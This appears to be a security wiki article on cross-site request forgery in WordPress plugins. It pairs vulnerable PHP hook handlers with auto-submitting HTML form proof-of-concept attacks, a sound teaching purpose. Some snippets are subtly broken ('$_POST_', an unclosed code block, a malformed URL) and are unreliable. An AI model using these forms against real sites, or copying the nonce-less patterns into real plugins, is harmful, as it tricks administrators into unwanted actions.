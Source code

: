```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/wordpress-functions/#current_user_can) function, and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/wordpress-functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_ajax_referer) functions.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST_["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}

In order to exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data");

function update_post_data(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data?id=1" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```